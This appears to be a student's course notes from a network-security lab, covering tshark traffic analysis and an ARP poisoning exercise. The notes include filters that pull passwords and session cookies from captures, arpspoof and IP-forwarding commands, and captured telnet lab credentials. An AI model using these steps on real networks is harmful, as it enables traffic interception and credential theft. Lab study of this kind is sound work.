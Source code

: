 - network-based attack
	- not related to operating system but attacks on network 
		- arp 
		- dhcp
		- smb 
		- ftp
		- telnet 
		- ssh 
- man in the middle attack  
![[Pasted image 20230718125000.png]]


###  Tshark 
**Tshark** is a command line tool created by the Wireshark team and shares the same powerful parsing engine as Wireshark. It is capable of doing most things we've come to love Wireshark for, but with the "from command line" advantage. This makes it ideal for batch analysis, offline processing and routine automation of traffic analysis tasks. In this course, we will explore many of these capabilities. It is assumed you have a basic working knowledge of Wireshark and traffic analysis.

check what version we have 
- command: tshark -v 
we want to see the manual but only one page at the time 
- command: tshark -man | more 
get a list of interfaces we can interact with 
- command: tshark -D 
select the eth interface 
- command: tshark -i eth0 
when you have a pcap 
- tshark -r pcapfilename 
run statistics on pcap 
- command: tshark -r pcap -z io,phs -q 


-- Lab --- 
**Set A:**
1. Which version of Tshark is installed in the lab? 
   
   student@attackdefense:~$ tshark -v
TShark (Wireshark) 2.6.1 (Git v2.6.1 packaged as 2.6.1-0ubuntu2~16.04.0)
   
2. Find all Tshark supported network interfaces for monitoring
student@attackdefense:~$ tshark -D
1. eth0
2. any
3. lo (Loopback)
4. ip_vti0
5. nflog
6. nfqueu
3. What is the Tshark command to sniff on eth0? Why did this command fail?
student@attackdefense:~$ tshark -i eth0
Capturing on 'eth0'
tshark: The capture session could not be initiated on interface 'eth0' (You don't have permission to capture on that device).
Please check to make sure you have sufficient permissions, and that you have the proper interface or pipe specified.0 packets captured

**Set B:**

1. Tshark supports PCAP files. The lab environment has a sample file: HTTP_traffic.pcap. How can you read this file in Tshark and display the packet list on the console?
   
   tshark -r pcapfilename 
   
2. How can you find the total number of packets in HTTP_traffic.pcap?
   
   student@attackdefense:~$ tshark -r  HTTP_traffic.pcap | wc -l 
  30418  
  
1. Tshark command to read the first 100 packets only from HTTP_traffic.pcap?
   
tshark -r HTTP_traffic.pcap -c 100


4. Print the list of protocols in HTTP_traffic.pcap 
![[Pasted image 20230718141506.png]]


### Filtering Basics 

apply a filter that will look at http
- command: tshark -r HTTP_traffic.pcap -Y 'http'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
- command: tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e ttp.request.full_uri' | more 
- command:  tshark -r HTTP_traffic.pcap -Y 'http contains password'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www\.2nos.com' -Tfield -e ip.dst 
lets look at traffic between two IP addresses 
- command: tshark -r HTTP_traffic.pcap -Y 'ip.src\==ip && ip.dst\==52.XX'  
traffic between ip 
- command: tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.x.x.x.' -Tfields -e ip.src -e http.cookie 
see which browser we are seeing 
- command:  tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.x.x.x && http' -Tfields -e http.user_agent 

-- lab --- 

Set A:
1. Command to show only the HTTP traffic from a PCAP file? 
   
   tshark -r HTTP_traffic.pcap -Y 'http' 
2. Command to show only the IP packets sent from IP address 192.168.252.128 to IP address 52.32.74.91?
   
   tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.168.252.128 && ip.adr\==52.32.74.91'
3. Command to print only packets containing GET requests?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
   
4. Command to print only packets only source IP and URL for all GET request packets?
   
tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e http.request.full_uri'

Set B:
1. How many HTTP packets contain the "password" string? 4 
    tshark -r HTTP_traffic.pcap -Y 'http contains password' 
   
   
2. . What is the destination IP address for GET requests sent for New York Times (www.nytimes.com)?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www.nytimes.com' -Tfields -e ip.dst 

1. What is the session ID being used by 192.168.252.128 for Amazon India store (amazon.in)?
   
 tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.168.252.128' -Tfields -e ip.src -e http.cookie 

2082758401l 

1. What type of OS the machine on IP address 192.168.252.128 is using (i.e. Windows/Linux/MacOS/Solaris/Unix/BSD)? Bonus: Can you also guess the distribution/flavor?

192.168.252.128 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0 


### Arp Poisoning 


Run an nmap on the target subnet 
open wireshark on eth1
ping one target ip
- command: echo 1 > /proc/sys/net/ipv4/ip_forward 
lets start with arpspoof - "ip1" with the IP address of the target you want to intercept or spoof, and "ip2" with the IP address of the host you want to redirect the traffic to. 
- command: arpspoof -i eth1 -t ip1 -r ip2 

telnet is not encrypted so look for those credentials and use it to login 

-- Lab -- 

Try to intercept network traffic and steal `telnet` credentials by performing an ARP poisoning attack. 

ine login: admin
.
admin

Password: MyS3cr3tP455
.

Nmap scan report for 10.100.13.36
Host is up (0.00049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
23/tcp open  telnet
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)
 


